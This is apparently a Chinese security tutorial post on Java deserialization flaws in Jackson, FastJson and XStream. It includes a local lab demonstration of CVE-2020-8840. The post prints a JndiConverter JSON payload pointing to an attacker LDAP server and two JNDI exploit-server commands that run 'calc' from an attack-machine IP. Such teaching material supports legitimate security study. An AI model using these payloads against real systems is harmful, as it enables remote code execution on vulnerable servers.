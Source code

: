 #  Java组件安全&数据处理&FastJson各个版本&JackSon&XStream&自动BP插件&CVE漏洞  
原创 朝阳  Sec朝阳   2025-07-16 10:42  
  
# 黑盒、白盒测试  
  
黑盒检测：Java应用 请求参数数据以json/xml格式发送测试  
  
黑盒判断：通过提交数据报错信息得到什么组件  
  
xml格式(xstream) 或 json 格式（fastjson jackson）  
  
白盒：直接看引用组件版本  
# 1、J2EE-组件Jackson（JSON）  
  
当下流行的json解释器，主要负责处理Json的序列化和反序列化。  
  
历史漏洞：https://avd.aliyun.com/search?q=Jackson  
### 代码执行 (CVE-2020-8840)  
  
2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2  
  
String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\",   
  
{\"asText\":\"ldap://localhost:1389/Exploit\"}]";  
```
"[\"org.apache.xbean.propertyeditor.JndiConverter\", 
{\"asText\":\"ldap://localhost:1389/Exploit\"}]";
```  
### 本地演示  
  
漏洞核心readValue，受到json版本和jdk版本，因为是jndi注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tupWps2J7bbWtXGJlDO2QickUhvZ0B7ibBlfibUiconWqvDnhfIMsfHWias2w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuib61mQ3qP7GS93POpPFBJpcTHBR25c0TmOOjsiarOULVEtibJa84tss0g/640?wx_fmt=png&from=appmsg "")  
  
启动一个计算器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuEw8GCm551rAaaLZ2oAJFH4T5r5lcHoHDAPtrKECO13Z6ZAPxVPalZA/640?wx_fmt=png&from=appmsg "")  
  
在这里替换一下jndi值  
  
这里使用jndi的另一个工具  
  
java -jar jndiexploit-1.4-SNAPSHOT.jar -i 192.168.66.152 -l 1389 -p 8080  
  
这条命令使用jndi工具，-i指攻击机  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuWeyYyw0VH2x79sqhd5Rm0Hqo1OIQA4JPthTBx0iatQD0lZKCZwHbHiag/640?wx_fmt=png&from=appmsg "")  
  
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 192.168.66.152  
  
这里-C是命令，calc打开计算器，-A是攻击机ip  
  